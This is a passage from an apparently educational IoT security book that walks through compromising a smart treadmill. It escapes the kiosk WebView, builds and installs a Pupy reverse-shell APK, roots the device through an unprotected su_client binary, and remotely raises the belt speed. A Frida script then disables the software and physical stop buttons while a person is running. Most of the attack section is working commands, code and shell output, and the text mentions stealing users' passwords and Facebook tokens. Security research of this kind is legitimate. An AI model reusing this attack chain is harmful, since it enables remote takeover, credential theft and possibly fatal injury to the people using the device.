allow the user to access only selected services and functionalities. For example, the user can start the treadmill, select a specific exercise, and watch TV or listen to a radio program. They can also authenticate to a cloud platform to track their progress. Bypassing these restrictions could allow us to install services to control the device.    Adversaries who want to circumvent UI restrictions commonly target the authentication and registration screens. The reason is that, in most cases, these require browser integration, either to perform the actual authentication functionality or to provide supplementary information. This browser integration is usually implemented using components provided by the Android framework, such as WebView objects. WebView is a feature that allows developers to display text, data, and web content as part of an application interface without requiring extra software. Although useful for developers, it supports plenty of functionality that can’t be easily protected, and as a result, it’s often targeted.    In our case, we can use the following process to circumvent the UI restrictions. First, click the **Create new account** button on the device screen. A new interface should appear requesting the user’s personal data. This interface contains a link to the Privacy Policy. The Privacy Policy seems to be a file that is presented in WebView, as shown in Figure 15-14.      Figure 15-14: Registration interface with links to the Privacy Policy      Within the Privacy Policy are other links, such as the Cookies Policy file shown in Figure 15-15.      Figure 15-15: WebView displaying the Privacy Policy local file      Fortunately, this policy file contains external links to resources hosted in remote servers, such as the one that appears as an icon in the top bar of the interface, as shown in Figure 15-16.      Figure 15-16: A link to an external site on the Cookies page      By selecting the link, the adversary can navigate to the vendor’s site and retrieve content that they wouldn’t have been able to access before, such as the site’s menus, images, videos and vendor’s latest news.    The final step is to attempt to escape from the cloud service to visit any custom website. The most common targets are usually the external web page’s Search Web Services buttons, which are shown in Figure 15-17, because they allow users to access any other site by simply searching for it.      Figure 15-17: An external site containing links to the Google search engine      In our case, the vendor’s site has integrated the Google search engine so the site’s visitors can perform local searches for the website’s content. An attacker can click the small Google icon at the top left of the screen to transfer to the Google search page. Now we can navigate to any site by typing the site’s name in the search engine.    Alternatively, attackers could exploit the Login interface feature that allows users to authenticate with Facebook (Figure 15-18) because it creates a new browser window.      Figure 15-18: The authentication interface links to Facebook.      Then, when we click the Facebook logo shown in Figure 15-19, we can escape from WebView into a new browser window that allows us to access the URL bar and navigate to other sites.      Figure 15-19: A pop-up window that links to an external site      #### Attempting to Get Remote Shell Access    With access to other sites, the attacker could now use their web browsing capabilities to navigate to a remotely hosted Android application executable and then attempt to directly download and install it on the device. We’ll try to install an Android app on our computer that would give us remote shell access to the treadmill: it’s called the *Pupy* agent ([`github.com/n1nj4sec/pupy`](https://github.com/n1nj4sec/pupy)*/*).    We first have to install the Pupy server to our system. Using the Git tool to download the code from the remote repository, we then navigate to its folder and use the *create-workspace.py*script to set up the environment:    ``` $ **git clone --recursive https://github.com/n1nj4sec/pupy** $ **cd pupy && ./create-workspace.py pupyws** ```    Next, we can generate a new Android APK file using the `pupygen` command:    ``` $ **pupygen -f client -O android –o sysplugin.apk connect --host 192.168.1.5:8443** ```    The `-f` parameter specifies that we want to create a client application, the `-O` parameter stipulates that it should be an APK for Android platforms, the `-o` parameter names the application, the `connect` parameter requires the application to perform a reverse connection back to the Pupy server, and the `--host` parameter provides the IPv4 and port on which this server is listening.    Because we can navigate to custom websites through the treadmill’s interface, we can host this APK to a web server and try to directly access the treadmill. Unfortunately, when we tried to open the APK, we learned that the treadmill doesn’t allow you to install apps with an APK extension just by opening them through WebView. We’ll have to find some other way.    #### Abusing a Local File Manager to Install the APK    We’ll use a different strategy to attempt to infect the device and gain persistent access. Android WebViews and web browsers can trigger activities on other apps installed on the device. For example, all devices equipped with an Android version later than 4.4 (API level 19) allow users to browse and open documents, images, and other files using their preferred document storage provider. As a result, navigating to a web page containing a simple file upload form, like the one in Figure 15-20, will make Android look for installed File Manager programs.      Figure 15-20: Accessing an external site that requests a file upload      Surprisingly, we discovered that the treadmill’s browser window can initiate a custom File Manager application by letting us select its name from the sidebar list in the pop-up window, as shown in Figure 15-21. The one we’ve highlighted isn’t a default Android file manager and was probably installed as an extension in the Android ROM to allow the device manufacturer to perform file operations more easily.      Figure 15-21: Opening a custom local File Manager      This File Manager has extensive functionalities: it can compress and decompress files, and it can even directly open other apps—a functionality that we’ll exploit to install a custom APK. In the File Manager, we locate the previously downloaded APK file and click the **Open** button, as shown in Figure 15-22.      Figure 15-22: Abusing the local File Manager to execute a custom APK      The Android package installer, which is the default Android app that allows you to install, upgrade, and remove applications on the device, will then automatically initiate the normal installation process, as shown in Figure 15-23.      Figure 15-23: Executing a custom APK from the File Manager      Installing the Pupy agent will initiate a connection back to the Pupy server, as shown here. We can now use the remote shell to execute commands to the treadmill as a local user.    ``` [*] Session 1 opened (treadmill@localhost) (xx.xx.xx.xx:8080 <- yy.yy.yy.yy:43535) >> **sessions** id user hostname platform release os_arch proc_arch intgty_lvl address tags --------------------------------------------------------------------------- 1 treadmill localhost android 3.1.10 armv7l 32bit Medium   yy.yy.yy.yy  ```    #### Escalating Privileges    The next step is to perform privilege escalation. One way to achieve that is to look for *SUID binaries*, which are binaries that we can execute using a selected user’s permissions, even if the person executing them has lower privileges. More precisely, we’re looking for binaries that we can execute as the *root* user, which is the superuser on an Android platform. These binaries are common in Android-controlled IoT devices, because they allow apps to issue commands to the hardware and perform firmware updates. Normally, Android apps work in isolated environments (often called sandboxes) and can’t gain access to other apps or the system. But an app with superuser access rights can venture out of its isolated environment and take full control of the device.    We found that it’s possible to perform privilege escalation by abusing an unprotected SUID service installed on the device named *su_server*. This service was receiving commands from other Android applications over Unix domain sockets. We also found a client binary named `su_client` installed in the system. The client could be used to directly issue commands with root privileges, as shown here:    ``` $ **./su_client 'id > /sdcard/status.txt' && cat /sdcard/status.txt** uid=0(root) gid=0(root) context=kernel ```    The input issues the `id` command, which displays the user and group names and numeric IDs of the calling process to the standard output, and redirects the output to the file located at */sdcard/status.txt*. Using the `cat` command, which displays the file’s contents, we retrieve the output and verify that the command has been executed with the `root` user’s permissions.    We provided the commands as command line arguments between single quotes. Note that the client binary didn’t directly return any command output to the user, so we had to first write the result to a file in the SD card.    Now that we have superuser permissions, we can access, interact, and tamper with another app’s functionalities. For example, we can extract the current user’s training data, their password for the cloud fitness tracking app, and their Facebook token, and change the configuration of their training program.    #### Remotely Controlling Speed and Incline    With our acquired remote shell access and superuser permissions, let’s find a way to control the treadmill’s speed and incline. This requires investigating the software and the equipment’s hardware. See Chapter 3 for a methodology that can help you do this. Figure 15-24 shows an overview of the hardware design.    We discovered that the device is built on two main hardware components, called the Hi Kit and the Low Kit. The Hi Kit is composed of the CPU board and the device’s main board; the Low Kit is composed of a hardware control board that acts as an interconnection hub for the main components of the lower assembly.      Figure 15-24: A smart treadmill’s hardware design      The CPU board contains a microprocessor programmed with control logic. It manages and processes signals from the LCD touch screen, the NFC reader, the iPod docking station, a client USB port that allows users to connect external devices, and the built-in USB service port used to provide updates. The CPU board also handles the device’s network connectivity through its networking board.    The main board is the interface board for all the peripheral devices, such as the speedandinclinejoysticks, emergency buttons, and health sensors. The joysticks allow users to adjust the machine’s speed and elevation during exercise. Each time they’re moved forward or backward, they send a signal to the CPU board to change the speed or the elevation, depending on which joystick is used. The emergency stop button is a safety device that allows the user to stop the machine in an emergency situation. The sensors monitor the user’s heartbeat.    The Low Kit consists of the belt motor,the elevation motor, the inverter, and a limit switch. The belt motor and the elevation motor regulate the treadmill’s speed and incline. The inverter device supplies the belt motor with voltage. Variations in this voltage can cause corresponding variations in the tread belt’s acceleration. The limit switch restricts the belt motor’s maximum speed.    Figure 15-25 shows how the software communicates with all of these peripheral devices.      Figure 15-25: Software communication with the peripheral devices      Two components control the attached peripherals: a custom *Hardware Abstraction Layer**(HAL)* component and an embedded USB microcontroller. The HAL component is an interface implemented by the device vendor that allows the installed Android applications to communicate with hardware-specific device drivers. Android apps use the HAL APIs to get services from hardware devices. These services control the HDMI and the USB ports, as well as the USB microcontroller to send commands to change the belt motor’s speed or the elevation motor’s incline.    The treadmill contains a preinstalled Android app named the *Hardware Abstraction Layer APK* that uses these HAL APIs and another app named Equipment APK. The Equipment APK receives hardware commands from other installed apps through an exposed broadcast receiver and then transfers them to the hardware using the Hardware Abstraction Layer APK and the USB microcontroller, as shown in Figure 15-25.    The device contains a number of other preinstalled apps, such as the Dashboard APK, which is responsible for the user interface. These apps also need to control the hardware and monitor the existing equipment state. The current equipment state is maintained in another custom preinstalled Android application named the Repository APK, which is in a shared memory segment. A *shared memory segment* is an allocated area of memory that multiple programs or Android apps can access at the same time using direct read or write memory operations. The state is also accessible through exposed Android content providers but using the shared memory allows for greater performance, which the device needs for its real-time operations.    For example, each time the user presses one of the Dashboard speed buttons, the device sends a request to the Repository APK’s content provider to update the device’s speed. The Repository APK then updates the shared memory and informs the Equipment APK using an Android Intent. Then the Equipment APK sends the appropriate command through the USB controller to the appropriate peripheral, as shown in Figure 15-26.      Figure 15-26: Sending a command from the Dashboard APK to the hardware      Because we’ve gained local shell access with root privileges using the previous attack path, we can use the Repository APK’s exposed content provider to simulate a button activity. This would resemble an action received from the Dashboard APK.    Using the `content update` command, we can simulate the button that increases the treadmill’s speed:    ``` $ **content update --uri content:// com.vendorname.android.repositoryapk.physicalkeyboard.**  **AUTHORITY/item    --bind JOY_DX_UP:i:1** ```    We follow the command with the `uri` parameter, which defines the exposed content provider, and the `bind` parameter, which binds a specific value to a column. In this case, the command performs an update request to the Repository APK’s exposed content provider named `physicalkeyboard.AUTHORITY/item` and sets the value of the variable named `JOY_DX_UP` to one. You can identify the full name of the application, as well as the name of the exposed content provider and the bind parameter, by decompiling the app using the techniques presented in Chapter 14 and “Analyzing Android Applications” on page 360.    The victim is now on a remotely controlled treadmill that is accelerating to its maximum speed!    #### Disabling Software and Physical Buttons    To stop the device—or treadmill, in this case—the user can normally press one of the available dashboard screen buttons, such as the pause button, the restart button, the cool-down button, the stop button, or any buttons that control the device’s speed. These buttons are part of the pre-installed software that controls the device’s user interface. It’s also possible to halt the device using the physical joystick buttons that control the speed and incline or the *emergency stop key*, a completely independent physical button embedded in the lower part of the device hardware, as shown in Figure 15-27.      Figure 15-27: Software and physical buttons that allow a user to stop the treadmill      Each time the user presses one of the buttons, the device uses the Android IPC. An insert, update, or delete operation takes place in the content provider part of the app that controls the device’s speed.    We can use a simple Frida script to disable this communication. *Frida* is a dynamic tampering framework that allows the user to replace specific in-memory function calls. We used it in Chapter 14 to disable an Android app’s root detection. In this case, we can use a similar script to replace the repository app’s content provider update functionality to stop receiving new intents from the buttons.    Initially, we create a port forward for port 27042, which the Frida server will use, using the Pupy agent’s `portfwd` command:    ``` $ **run portfwd -L 127.0.0.1:27042:127.0.0.1:27042** ```    The `-L` parameter indicates that we want to perform a port forward from port 27042 of the localhost 127.0.0.1 to the remote device at the same port. The hosts and ports must be separated with the colon (:) character. Now whenever we connect to this port on our local device, a tunnel will be created connecting us to the same port on the target device.    Then we upload the Frida server for ARM platforms ([`github.com/frida/frida/releases/`](https://github.com/frida/frida/releases/)) to the treadmill using Pupy’s `upload` command:    ``` $ **run upload frida_arm /data/data/org.pupy.pupy/files/frida_arm** ```    The `upload` command receives, as the first argument, the location of the binary that we want to upload to our device, and as the second argument, the location in which to place this binary on the remote device. We use our shell access to mark the binary as executable using the `chmod` utility and start the server:    ``` $ **chmod 777 /data/data/org.pupy.pupy/files/frida_arm** $ **/data/data/org.pupy.pupy/files/frida_arm &** ```    Then we use the following Frida script, which replaces the button functionality with instructions to perform no action:    ``` var PhysicalKeyboard = Java.use(“com.vendorname.android.repositoryapk.cp.PhysicalKeyboardCP”);1 PhysicalKeyboard.update.implementation = function(a, b, c, d){ return; } ```    As mentioned earlier, the Repository APK handles the buttons’ activities. To locate the exact function that you need to replace 1, you’ll have to decompile the app using the techniques presented in “Analyzing Android Applications” on page 360.    Finally, we install the Frida framework on our system using the `pip` package manager for Python and execute the previous Frida script:    ``` $ **pip install frida-tools** $ **frida -H 127.0.0.1:27042 –f com.vendorname.android.repositoryapk -l script.js** ```    We use the `-H` parameter to specify the Frida server’s host and port, the `-f` parameter to specify the full name of the targeted application, and the `-l` parameter to select the script. We must provide the application’s full name in the command, which, once again, you can find by decompiling the app.    Now, even if the victim attempts to select one of the software buttons in the Dashboard APK or press the physical buttons that control the speed and incline to stop the device, they won’t succeed. Their only remaining choices are to locate and press the emergency stop button at the lower part of the device hardware or find another way to turn off the power.    #### Could This Vulnerability Exploitation Cause a Fatal Accident?    The chance of a user getting a serious injury as a result of the attacks we’ve described isn’t negligible. The device reached a speed of 27 km/h, or 16.7 mph. Most commercial treadmills can reach speeds between 12 and 14 mph; the highest-end models top out at 25 mph. Let’s compare this speed with the men’s 100 meters final race at the 2009 World Athletics Championships held at the Olympic Stadium in Berlin. Usain Bolt finished in a world record-breaking time of 9.58 seconds and was clocked at 44.72 km/h, or 27.8 mph! Unless you’re as fast as Bolt, you probably won’t be able to outrun the treadmill.    A number of real-life incidents verify the danger of a smart treadmill attack. Dave Goldberg, the SurveyMonkey CEO, lost his life after hitting his head in a treadmill accident. (According to the autopsy, a heart arrhythmia might have also contributed to his death.) In addition, between 1997 and 2014, an estimated 4,929 patients went to US emergency rooms with head injuries they sustained while exercising on treadmills.    ## Conclusion    In this chapter, we explored how an adversary could tamper with popular IoT devices found in modern smart homes and businesses. You learned how to circumvent modern RFID door locks and then jam wireless alarm systems to avoid detection. You played back security camera feed obtained from network traffic. Then we walked through how you might take over control of a smart treadmill to cause the victim potentially fatal injuries.    You could use the case studies provided to walk through a holistic smart home assessment or treat them as a testament to the underlying impact that vulnerable smart home IoT devices might introduce.    Now go explore your own smart home!````
